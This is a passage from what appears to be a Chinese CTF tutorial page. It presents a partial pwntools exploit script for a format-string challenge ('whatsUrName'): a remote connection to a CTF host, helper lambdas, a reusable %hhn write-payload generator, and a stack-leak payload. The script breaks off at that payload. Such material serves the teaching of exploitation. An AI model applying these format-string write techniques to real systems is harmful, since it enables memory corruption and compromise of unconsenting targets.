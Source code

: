 # 例题-你的名字2

代码提示如下：

```c
#!/usr/bin/python3
#-*- coding: utf-8 -*-
#  author: @eastXueLian

from pwn import *
import sys

context.log_level = 'debug'
context.arch='amd64'
context.terminal = ['tmux','sp','-h','-l','120']

LOCAL = 0
if LOCAL:
    io = process("./whatsUrName")
else:
    remote_service = "ctf.nbs.jonbgua.com 32131"
    remote_service = remote_service.strip().split(" ")
    io = remote(remote_service[0], int(remote_service[1]))

rl = lambda a=False : io.recvline(a)
ru = lambda a,b=True : io.recvuntil(a,b)
rn = lambda x : io.recvn(x)
s = lambda x : io.send(x)
sl = lambda x : io.sendline(x)
sa = lambda a,b : io.sendafter(a,b)
sla = lambda a,b : io.sendlineafter(a,b)
ia = lambda : io.interactive()
dbg = lambda text=None : gdb.attach(io, text)
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
i2b = lambda c : str(c).encode()
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))
def debugPID():
    if LOCAL:
        lg("io.pid")
        input()
    pass

# 这个函数可以重用作为格式化字符串类题目的轮子
current_n = 0
def generate_hhn_payload(distance, hhn_data):
    global current_n
    offset = (distance // 8) + 6
    if hhn_data > current_n:
        temp = hhn_data - current_n
    elif hhn_data < current_n:
        temp = 0x100 - current_n + hhn_data
    elif hhn_data == current_n:
        return b"%" + i2b(offset) + b"hhn"
    current_n = hhn_data
    return b"%" + i2b(temp) + b"c%" + i2b(offset) + b"$hhn"

ru(b":")
sl(input("YOUR TOKEN: ").encode())

ru(b"What's your name?\n");
current_n = 0
payload = b"%40$p.%41$p.%43$p."
```
